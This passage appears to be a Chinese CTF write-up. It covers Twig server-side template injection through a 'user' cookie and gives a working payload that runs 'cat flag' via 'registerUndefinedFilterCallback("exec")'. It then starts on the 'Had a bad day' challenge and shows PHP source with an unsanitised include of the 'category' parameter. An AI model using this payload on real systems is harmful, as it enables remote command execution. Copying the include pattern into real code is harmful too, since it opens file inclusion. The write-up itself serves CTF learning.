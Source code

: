 其中`{{7*7}}`在**Twig**中返回`49`，在**Jinja2**中返回的是`7777777`，由此判断出为**Twig模版注入**

由于提示了cookie

我们就抓包看看cookie

上传一个参数抓包，repeat发现有个set cookie

![在这里插入图片描述](img/a433bfd153cdd156d795ba21ec5e4b5b.png)

放包，抓登陆后页面的包， cookie中多了一个user，这应该就是注入点了。

上网搜索twig模板ssti的payload 传入user再repeater就可了

payload：

```
user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat flag")}} 
```

## [BSidesCF 2020]Had a bad day

## 题解

进入页面 有两个按钮，click，出现一只小喵，一只小汪的图片。

观察url 发现get传参

猜测为文件包含

尝试读取源码。

resource为index.php 报错。猜测自动补齐后缀

尝试index 得到源码

```
<?php
$file = $_GET['category'];

​if(isset($file))
​	{
​		if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index"))
  {
​	include ($file . '.php');
​		}
​else{
​		echo "Sorry, we currently only support woofers and meowers.";
​}
​	}
​?> 
```
